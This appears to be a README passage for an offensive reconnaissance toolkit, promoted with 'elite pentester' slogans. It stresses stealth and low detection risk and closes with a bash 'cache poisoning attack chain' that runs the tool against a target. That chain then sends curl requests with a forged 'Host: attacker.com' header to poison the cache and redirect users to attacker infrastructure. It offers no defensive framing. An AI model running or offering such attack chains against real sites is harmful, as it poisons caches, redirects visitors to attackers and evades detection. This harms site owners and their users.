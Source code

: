 **Optimization Techniques:**
- ✅ High-value vectors only (80/20 rule)
- ✅ Parallel execution with goroutines
- ✅ Minimal memory allocation
- ✅ Connection pooling and reuse
- ✅ Smart timeout management

---

## 🎪 **ELITE PENTESTER PRINCIPLES IMPLEMENTED**

### 🧠 **1. Intelligence Over Brute Force**
```
❌ Script Kiddie Approach: Try 10,000 payloads randomly
✅ Elite Approach: Analyze target, generate 10 perfect payloads
```

### ⚡ **2. Speed and Stealth Balance**
```
❌ Noisy Scanner: Fast but detected immediately  
✅ Elite Balance: Sub-second execution with <1% detection risk
```

### 🎯 **3. Adaptive Learning**
```
❌ Static Tool: Same payloads for every target
✅ Elite Tool: Learns from each target, improves constantly
```

### 💀 **4. Real-world Impact Focus**
```
❌ Academic Findings: Find 100 low-impact vulnerabilities
✅ Elite Findings: Find 2 critical vulnerabilities that matter
```

---

## 🔥 **REAL-WORLD ATTACK SCENARIOS**

### 💥 **Scenario 1: Cache Poisoning Chain**
```bash
#!/bin/bash
# Elite cache poisoning attack chain

echo "🔥 ELITE CACHE POISONING INITIATED"

# Stage 1: Intelligence gathering
./recon-toolkit quickstrike -t target.com --quiet | grep "Host Header"

# Stage 2: Adaptive penetration
./recon-toolkit penetrate -t target.com --aggressive --stealth-level 5

# Stage 3: Exploitation
curl -H "Host: attacker.com" http://target.com/popular-page
curl -H "Host: target.com" http://target.com/popular-page  # Returns poisoned content

echo "💀 Cache poisoned - users redirected to attacker infrastructure"
```
